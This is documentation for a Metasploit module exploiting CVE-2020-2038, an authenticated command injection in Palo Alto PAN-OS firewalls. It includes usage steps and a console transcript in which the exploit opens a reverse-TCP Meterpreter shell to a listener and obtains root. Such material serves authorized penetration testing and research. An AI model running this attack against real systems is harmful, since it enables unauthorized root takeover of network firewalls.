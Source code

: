 ## Vulnerable Application

This module exploits CVE-2020-2038, an authenticated OS Command Injection vulnerability in PAN-OS versions < 10.0.1,
< 9.1.4 and <9.0.10 that allows authenticated administrators to execute arbitrary OS commands with root privileges. The
Rest API allows authenticated users to send operational mode commands via the "op" request. Insufficient filtering of
user inputs in the "op" request allows an attacker to inject commands.

A Palo Alto Firewall demo VM can be requested at the following
[link](https://www.paloaltonetworks.com/company/request-demo). PAN‑OS is the software that runs all Palo Alto Networks
next-generation firewalls. PAN-OS will be running on the VM by default. The only setup necessary should be setting the
administrator password.

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/http/panos_auth_rce`
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### PAN-OS 10.0.0
```
msf6 > use linux/http/panos_auth_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/panos_auth_rce) > set rhosts 192.168.2.196
rhosts => 192.168.2.196
msf6 exploit(linux/http/panos_auth_rce) > set USERNAME admin
USERNAME => admin
msf6 exploit(linux/http/panos_auth_rce) > set PASSWORD N0tpassword!
PASSWORD => N0tpassword!
msf6 exploit(linux/http/panos_auth_rce) > run

[*] Started reverse TCP handler on 192.168.2.114:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Authenticating...
[+] Successfully obtained api key
[+] The target is vulnerable.
[*] Exploiting...
[*] Sending stage (989032 bytes) to 192.168.2.196
[*] Meterpreter session 1 opened (192.168.2.114:4444 -> 192.168.2.196:52592) at 2022-08-17 16:13:19 -0400
[*] Command Stager progress - 100.00% done (1111/1111 bytes)

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : PA-VM-10-0-0.home
OS           : Red Hat  (Linux 3.10.0-957.21.3.10.pan.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
